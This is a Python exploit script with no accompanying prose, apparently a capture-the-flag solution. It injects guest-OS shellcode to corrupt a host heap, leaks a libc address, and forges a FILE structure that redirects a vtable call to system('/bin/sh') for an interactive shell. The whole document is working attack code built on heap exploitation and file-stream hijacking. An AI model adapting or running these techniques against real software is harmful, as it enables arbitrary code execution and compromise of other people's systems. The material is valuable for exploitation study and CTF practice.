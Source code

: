 ```python
def read_stdin(addr, size, ip):
	mov_ax = "\xB8" + p16(addr)
	mov_bx = "\xBB" + p16(size)
	call = "\xE8" + p16(0x205 - (ip + len(mov_ax + mov_bx) + 3))
	return mov_ax + mov_bx + call

sh.recvuntil("Your choice:")

for i in xrange(0,0xb):
	alloc(0x1000)
alloc(LAST_ALLOC_SIZE)
#now edit 0xb to write code segment of guest OS

shellcode = alloc_host(0x80) #0
shellcode += alloc_host(0x80) #1
shellcode += free_host(0)
shellcode += update_host(8, 0, 2)
shellcode += write_stdout(0x4000, 8, len(shellcode) + UPDATE_RET_ADDR)
shellcode += free_host(1) #consolidate
shellcode += alloc_host(0x90) #2
shellcode += alloc_host(0x200) #3 edit 1 to edit this chunk header
rec = len(shellcode)
shellcode += alloc_host(0x80) #4 prevent consolidate
shellcode += free_host(3)
shellcode += read_stdin(0x4000, 0x10, len(shellcode) + UPDATE_RET_ADDR)
shellcode += update_host(0x10, 1, 1)
shellcode += read_stdin(0x4000, 0xE0, len(shellcode) + UPDATE_RET_ADDR)
shellcode += update_host(0xE0, 3, 1)
#shellcode += alloc_host(10)
shellcode += "\xEB" + chr((rec - (len(shellcode) + 2)) & 0xFF)

payload = "\xcc" * UPDATE_RET_ADDR
payload += shellcode
assert len(payload) < LAST_ALLOC_SIZE
payload += (LAST_ALLOC_SIZE - len(payload)) * "\x90"

update(0xb, payload)

libc_addr = u64(sh.recvuntil("\x00\x00")) - UNSORT_OFF
print hex(libc_addr)

fake_file = p64(0)
fake_file += p64(0x61)
fake_file += p64(libc_addr + UNSORT_OFF)
fake_file += p64(libc_addr + e.symbols["_IO_list_all"] - 0x10)
fake_file += p64(2) + p64(3)
fake_file += "\x00" * 8
fake_file += p64(libc_addr + next(e.search('/bin/sh\x00'))) #/bin/sh addr
fake_file += (0xc0-0x40) * "\x00"
fake_file += p32(0) #mode
fake_file += (0xd8-0xc4) * "\x00"
fake_file += p64(libc_addr + IO_STR_FINISH - 0x18) #vtable_addr
fake_file += (0xe8-0xe0) * "\x00"
fake_file += p64(libc_addr + e.symbols["system"])

sh.send(fake_file[0:0x10])
assert len(fake_file[0x10:]) == 0xE0

sh.send(fake_file[0x10:])

sh.interactive()
```
